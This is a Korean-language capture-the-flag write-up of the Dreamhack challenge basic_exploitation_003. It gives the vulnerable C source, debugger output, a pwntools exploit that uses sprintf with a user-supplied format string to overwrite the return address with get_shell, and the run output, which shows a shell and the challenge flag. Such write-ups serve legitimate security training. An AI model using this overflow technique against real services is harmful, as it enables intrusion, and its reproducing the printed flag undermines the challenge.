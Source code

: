 # 문제 코드
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf("ECHO : %s\n", stack_buf);
    return 0;
}
```


# 분석
```sh
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/basic_exploitation_003]
└─$ checksec basic_exploitation_003
[*] '/home/foo1/Desktop/Dreamhack/basic_exploitation_003/basic_exploitation_003'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```


코드에서 힙에 사용자가 입력한 데이터를 입력받은 후 다시 스택에 데이터를 입력받는 형태임
그런데 힙에서 스택으로 이동할 때 sprintf로 출력하게 되는데, 
사용자가 자유롭게 포멧스트링을 넣을 수 있고, partial RELRO이므로 SFP 취약점이 발생

이전에 포멧스트링 관련 취약점을 이용할 때, %hn등으로 나눠서 공격하는 경우가 많았는데,
여기서는 어떤 주소를 입력하는 것이 아닌 리턴까지의 오프셋에 대한 값만 넣어주면 되므로 큰 수에 대한 처리가 필요가 없음
그리고 %n과 같은 입력 관련 포맷스트링을 이용하는 것이 아닌, 단순히 오프셋만큼 쓰레기 값을 넣어주는 역할을 하는데 포맷스트링을 사용하는 것뿐임

따라서 리턴까지의 오프셋만 알아내기만 하면 됨(0xdc)
```sh
pwndbg> telescope 80
00:0000│ esp 0xffffcf48 —▸ 0xffffcf50 ◂— 'aaaaaaaa\n'
01:0004│-09c 0xffffcf4c —▸ 0x804b1a0 ◂— 'aaaaaaaa\n'
02:0008│-098 0xffffcf50 ◂— 'aaaaaaaa\n'
03:000c│-094 0xffffcf54 ◂— 'aaaa\n'
04:0010│-090 0xffffcf58 ◂— 0xa /* '\n' */
05:0014│-08c 0xffffcf5c ◂— 0x0
... ↓        32 skipped
26:0098│ edi 0xffffcfe0 —▸ 0x804b1a0 ◂— 'aaaaaaaa\n'
27:009c│-004 0xffffcfe4 —▸ 0xf7ffcb80 (_rtld_global_ro) ◂— 0x0
28:00a0│ ebp 0xffffcfe8 —▸ 0xf7ffd020 (_rtld_global) —▸ 0xf7ffda40 ◂— 0x0
29:00a4│+004 0xffffcfec —▸ 0xf7c21519 (__libc_start_call_main+121) ◂— add esp, 0x10
2a:00a8│+008 0xffffcff0 ◂— 0x1
...
```

# exploit
```python
from pwn import *

p=remote("host3.dreamhack.games",23842)
#p=process("./basic_exploitation_003")
#p=gdb.debug("./basic_exploitation_003")
e=ELF("./basic_exploitation_003")
#context.log_level='DEBUG'

get_shell=e.symbols["get_shell"] #0x080491a6

payload=b''
payload+=b'%156c'
payload+=p32(get_shell)

p.send(payload)

p.interactive()
```

# 결과
```sh
┌──(foo1㉿main-server)-[~/Desktop/Dreamhack/basic_exploitation_003]
└─$ python3 exploit.py 
[+] Opening connection to host3.dreamhack.games on port 23842: Done
[*] '/home/foo1/Desktop/Dreamhack/basic_exploitation_003/basic_exploitation_003'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] Switching to interactive mode
ECHO :                                                                                                                                                             i\x86\x0
$ ls
basic_exploitation_003
flag
$ cat flag
DH{4e6e355c62249b2da3b566f0d575007e}[*] Got EOF while reading in interactive
$  
```